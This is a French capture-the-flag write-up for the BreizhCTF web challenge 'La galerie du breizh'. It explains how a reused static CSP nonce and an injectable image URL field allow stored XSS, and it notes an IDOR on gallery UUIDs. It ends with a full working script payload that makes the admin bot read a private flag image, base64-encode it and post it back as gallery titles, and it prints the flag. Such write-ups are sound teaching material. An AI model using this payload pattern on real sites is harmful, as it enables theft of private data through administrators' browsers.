 # La galerie du breizh

### Description

Les organisateurs du breizhctf vous proposent de stocker le lien des photos que vous avez prises lors de l'évènement !

Ils prennent cela très à coeur et vont même vérifier à la main vos galeries photos !

Vous savez qu'il cache une photo quelque part sur le serveur, mais selon eux, c'est impossible de la récupérer !

Vous savez ce que vous devez faire..

`https://la-galerie-du-breizh.ctf.bzh:21000/`

### Solution

On arrive sur une page ou on nous propose de nous créer une galerie personnelle permettant d'héberger des photos avec un uuid qui est random :

![alt](images/1.png)

Sur cette galerie, on peut ajouter des items, ceux-ci doivent comporter un titre ainsi qu'une URL permettant d'enregistrer la photo que l'on souhaite ajouter dessus.

![alt](images/2.png)

On remarque que notre image a bien été ajoutée, on obtient maintenant un tableau qui référence toutes nos images. Cela est bien beau mais ce que l'on cherche c'est de leak l'image secrète de l'application. 

Si l'on fait un peu d'énumération classique, on se rend compte que le fichier `robots.txt` contient la ligne suivante :

```
User-Agent: *
Disallow: /private/images/flag.png
```

Evidemment, on ne peut aller chercher cette image, il va donc falloir la leak.
Si l'on inspecte les headers de réponse serveur, on remarque la présence de CSP :

```
Content-Security-Policy: 
    default-src 'self'; 
    style-src 'self' https://cdn.jsdelivr.net; 
    font-src https://cdn.jsdelivr.net; 
    script-src 'nonce-4987917312ab2f0a91e0fe29c0c175cf11f782a301803fe941bea2fa0198'; 
    object-src 'none'; 
    base-uri 'none'; 
    frame-ancestors 'none';
```

Ici, on apprend plusieurs choses :
- On ne peut exfiltrer de la donnée sur internet à cause du `defaut-src`.
- Un nonce est mis en place permettant, pour les balises script qui le match, de se faire exécuter par le navigateur.

Si l'on fait plusieurs requêtes, on se rend compte que celui-ci ne bouge pas et qu'il est statique, cela va nous arranger pour la suite.

On se doute donc que pour ce challenge, il va falloir faire une XSS permettant d'exfiltrer l'image à l'aide du bot, notamment avec la fonctionnalité "vérifier ma galerie", qui fait en sorte qu'un administrateur passe dessus.

Si l'on fait des tests, on se rend compte qu'il n'est pas possible de passer des balises dans le titre de l'image. Néanmoins, dans l'URL que l'on fourni, si celle-ci commence par "http://", on peut injecter ce que l'on veut derrière :

![alt](images/3.png)

On va donc ici tenter d'injecter une balise script qui respecte le nonce que l'on a pu voir dans les CSP auparavant :

```
https://<script nonce="4987917312ab2f0a91e0fe29c0c175cf11f782a301803fe941bea2fa0198">alert('xss')</script>
```

![alt](images/4.png)

On obtient donc notre précieuse XSS, qui va aussi se faire trigger par l'admin puisqu'il va venir vérifier notre galerie.

Par ailleurs, sur ce challenge, on peut voir que même si notre cookie "user" (qui référence notre uuid) ne match pas avec celui fourni dans l'URL, on peut quand même accéder à une autre galerie si l'on fourni un UUID valide. Il y a donc une IDOR en GET, mais aussi en POST. En effet, il est possible d'aller écrire dans la galerie de quelqu'un d'autres si on connait son UUID.

On a donc notre schéma d'attaque:
- Bypass CSP avec le nonce
- Création d'une xss permettant d'aller récupérer l'image
- On encode cette image en base64
- On insert en tant que titre dans notre propre galerie le résultat de cette dite base64

Il y a une dernière petite chose à prendre en compte, en effet, si l'on regarde le javascript côté client, on se rend compte qu'un titre ne peut faire plus de 2100 caractères, il va donc falloir split notre image en 3 (en créeant 3 nouvelles entrées).

On obtient donc la payload suivante :
```
https://twitter.com/photo/<script nonce='4987917312ab2f0a91e0fe29c0c175cf11f782a301803fe941bea2fa0198'>
fetch("http://localhost:21005/private/images/flag.png")
.then(res => res.blob())
.then(blob => { 
  var reader = new FileReader(); 
  reader.readAsDataURL(blob); 
  reader.onloadend = function() {   
    var base64data = reader.result;  
    for(var i=0; i<3; i++){
      $.ajax({
        type: "POST",
        url: "/gallery/add",
        data: { title: base64data.substring(i*2100,(i+1)*2100), link: "https://twitter.com/photo", uuid: document.location.pathname.split("/")[2]}
      })
    }
  } 
})</script>
```

Si l'on actualise notre gallerie, on voit que notre injection a bien fonctionnée :

![alt](images/5.png)

A partir de la base 64, on la concatène et on la transforme en image :

![alt](images/6.png)

### Flag

BZHCTF{0h_n0n_m4_sup3r_im4g3}